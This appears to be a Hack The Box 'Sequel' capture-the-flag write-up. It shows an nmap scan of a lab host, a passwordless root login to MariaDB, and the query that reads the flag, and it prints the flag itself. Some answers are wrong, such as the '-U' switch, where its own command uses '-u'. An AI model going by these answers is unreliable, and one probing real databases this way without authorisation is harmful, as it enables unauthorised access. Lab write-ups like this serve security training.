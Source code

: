 ```yaml
---
title: "[HTB] Sequel"
author: "Wook Lee"
date: "2024-07-12"
tags: ["Hack The Box"]
---
```


#### During our scan, which port do we find serving MySQL?

```
3306
```

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-0x7zvm1bat]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.50.55 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-11 23:56 CDT
Nmap scan report for 10.129.50.55
Host is up (0.0084s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, SupportsTransactions, SupportsCompression, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, Speaks41ProtocolNew, ConnectWithDatabase, FoundRows, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 6'\|}}|xdny7D0ay_OOz
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.84 seconds
```

<br>

#### What community-developed MySQL version is the target running?

```
MariaDB
```

```shell
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
```

<br>

#### When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```
-U
```

The option could be found by the `mysql --help` command

![alt text](image.png#center)

<br>

#### Which username allows us to log into this MariaDB instance without providing a password?

```
root
```

I attempted to login as root without password and it was accepted.

`mysql -h {target IP address} -u {username}`

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-0x7zvm1bat]─[~]
└──╼ [★]$ mysql -h 10.129.50.55 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

<br>

#### In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```
*
```

`*` the asterisk symbol is used to display everything (all columns) inside a table.

For example, `SELECT * FROM {table_name}`

<br>

#### In SQL, what symbol do we need to end each query with?

```
;
```

in SQL, we specify `;`, the semicolon to end each query, just like we end every line with the semicolon when programming in Javascript.

<br>

#### There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```
htb
```

`SHOW DATABSES` command listed all the databases in the MySQL instance and `htb` is the unique one to the host.

```sql
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

<br>

#### Submit root flag

```
7b4bec00d1a39e3dd4e021ec3d915da8
```

since I know the database that I'm interested in is the `htb` database, I ran `use htb` command to change the database to htb.
Then listed the tables belonged to the db by `show tables`

```SQL
MariaDB [(none)]> use htb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.009 sec)
```

<br>

To list everything in the config table, I ran `show * from config` and there was the flag.
<br>

```sql
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name | value |
+----+-----------------------+----------------------------------+
| 1 | timeout | 60s |
| 2 | security | default |
| 3 | auto_logon | false |
| 4 | max_size | 2M |
| 5 | flag | 7b4bec00d1a39e3dd4e021ec3d915da8 |
| 6 | enable_uploads | false |
| 7 | authentication_method | radius |
+----+-----------------------+----------------------------------+
7 rows in set (0.009 sec)
```

<br>

![alt text](image-1.png#center)
